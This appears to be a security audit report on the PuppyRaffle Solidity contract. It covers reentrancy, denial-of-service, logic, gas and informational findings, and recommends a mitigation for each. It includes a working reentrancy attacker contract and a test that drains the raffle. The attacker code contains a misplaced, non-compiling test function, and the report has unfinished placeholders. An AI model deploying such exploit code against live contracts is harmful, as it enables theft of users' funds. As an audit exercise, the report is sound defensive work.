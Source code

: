# High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrants to drain raffle balance

**Description:** The `PuppyRaffle::refund` function does not follow CEI and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>          payable(msg.sender).sendValue(entranceFee);
@>          players[playerIndex] = address(0);
            
            emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback`/`receieve` function that calls the `PuppyRaffle::refund` again and claim another refund, can continue cycle until contract is drained.


**Impact:** All fees paid by raffle entrants could be stolen by malicious participants.

**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract draining the contract balance

<details>
<summary>Test Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
    function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(puppyRaffle).balance;

        // attack
        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("Attacker Contract Balance: ", startingAttackContractBalance);
        console.log("Puppy Raffle Balance: ", startingContractBalance);

        console.log("Attacker Contract Balance After: ", address(attackerContract).balance);
        console.log("Puppy Raffle Balance After: ", address(puppyRaffle).balance);
    }
```

And this contract as well.

```javascript
    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function testCanEnterRaffle() public {
        address[] memory players = new address[](1);
        players[0] = playerOne;
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        assertEq(puppyRaffle.players(0), playerOne);
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
            
+           players[playerIndex] = address(0);
+           emit RaffleRefunded(playerAddress);
            payable(msg.sender).sendValue(entranceFee);
-           players[playerIndex] = address(0);
-           emit RaffleRefunded(playerAddress);
    }
```

# Medium

### [M-#] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, increamenting gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the players array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas cost for players who enter when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```javascript
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** Gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::players` array so big that no one else enters, guaranteeing themselves the win.

**Proof of Concept:** The below test case shows how gas is significantly more expensive for those who join the raffle later.

If we have two sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252048 gas
- 2nd 100 players: ~18068138 gas

Place the following test into `PuppyRaffleTest.t.sol`.

<details>
<summary>Test Code</summary>

```javascript
function test_denial_of_service() public {
        // Set the gas price to 1
        vm.txGasPrice(1);

        // Enter 100 players
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);

        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
            // this is creating 100 players with 100 addresses
        }

        // see how much gas it costs
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used for first 100 players: ", gasUsedFirst);

        // 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);

        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }

        // see how much gas it costs
        uint256 gasStart2 = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        uint256 gasEnd2 = gasleft();
        uint256 gasUsedSecond = (gasStart2 - gasEnd2) * tx.gasprice;
        console.log("Gas used for first 100 players: ", gasUsedSecond);

        // assert suspected results
        assert(gasUsedFirst < gasUsedSecond);
    }
```

</details>

**Recommended Mitigation:** There are a few recommentations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow a constant time lookup of whether a user has already entered.

```diff
+   mapping(address => uint256) public addressToRaffleId;
+   uint256 public raffleId = 0;
```

(add more code for all the changes this mapping would need)

3. Alternatively, you could use OpenZeppelin's `EnumerableSet` library. (link it)

# Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existant players and for players at index 0, causing players at index 0 to indirectly think they have not entered the raffle. 

**Description:** If a player is in `PuppyRaffle::players` array at index 0, this will return 0, but according to the NatSpec, it will also return 0 if the player is not in the array. 

```javascript
      /// @return the index of the player in the array, if they are not active, it returns 0
     function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

**Impact:** A players at index 0 may indirectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the function documentation

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0

You could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not active.

# Gas

### [G-1] Unchange state variables should be declared constant or immutable

Reading from storage is much more expensive than reading from constant or immutable

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variables in a loop should be cached

Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient

```diff
+    uint256 playersLength = players.length;
-    for (uint256 i = 0; i < players.length - 1; i++) {
+    for (uint256 i = 0; i < playersLength - 1; i++) {
-        for (uint256 j = i + 1; j < players.length; j++) {
+        for (uint256 j = i + 1; j < playersLength; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```





# Informational

### [I-1] Solidity pragma should be specific, not wide

Consider using specific version of Solidity in your contracts instead of wide version. 

- Found in src/PupptRaffle.sol

### [I-2] Using an outdated version of Solidity is not recommended

Consider using 0.8.18. Please see [Slither documentation](fakelink) for more information.

- Found in src/PupptRaffle.sol

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 62](src/PuppyRaffle.sol#L62)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 168](src/PuppyRaffle.sol#L168)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>





### [S-#] Title (ROOT CAUSE + IMPACT)

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 

